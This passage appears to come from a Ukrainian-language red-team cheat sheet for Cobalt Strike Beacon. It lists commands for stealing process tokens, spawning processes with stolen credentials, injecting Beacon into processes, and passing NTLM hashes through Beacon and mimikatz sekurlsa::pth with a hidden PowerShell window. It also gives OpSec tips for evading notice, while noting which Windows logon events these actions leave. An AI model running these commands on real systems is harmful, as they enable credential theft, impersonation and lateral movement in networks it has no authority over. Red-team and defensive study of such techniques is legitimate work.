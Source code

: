 ## Вкрасти токен з pid
## Як make_token, але крадучи токен з процесу
steal_token [pid] # Також це корисно для мережевих дій, а не локальних дій
## З документації API ми знаємо, що цей тип входу "дозволяє виклику клонувати свій поточний токен". Саме тому вихід Beacon говорить Impersonated <current_username> - він видає наш власний клонований токен.
ls \\computer_name\c$ # Спробуйте використовувати згенерований токен для доступу до C$ на комп'ютері
rev2self # Припинити використання токена з steal_token

## Запустити процес з новими обліковими даними
spawnas [domain\username] [password] [listener] #Зробіть це з каталогу з правами на читання, наприклад: cd C:\
## Як make_token, це згенерує подію Windows 4624: Обліковий запис успішно ввійшов, але з типом входу 2 (LOGON32_LOGON_INTERACTIVE). Це деталізує викликаючого користувача (TargetUserName) та користувача, від якого ведеться видача (TargetOutboundUserName).

## Впровадити в процес
inject [pid] [x64|x86] [listener]
## З точки зору OpSec: Не виконуйте крос-платформенне впровадження, якщо це дійсно не потрібно (наприклад, x86 -> x64 або x64 -> x86).

## Pass the hash
## Цей процес модифікації вимагає патчування пам'яті LSASS, що є високоризиковою дією, вимагає локальних прав адміністратора і не є дуже життєздатним, якщо увімкнено Protected Process Light (PPL).
pth [pid] [arch] [DOMAIN\user] [NTLM hash]
pth [DOMAIN\user] [NTLM hash]

## Pass the hash через mimikatz
mimikatz sekurlsa::pth /user:<username> /domain:<DOMAIN> /ntlm:<NTLM HASH> /run:"powershell -w hidden"
## Без /run, mimikatz запускає cmd.exe, якщо ви працюєте як користувач з робочим столом, він побачить оболонку (якщо ви працюєте як SYSTEM, ви в порядку)
steal_token <pid> #Вкрасти токен з процесу, створеного mimikatz

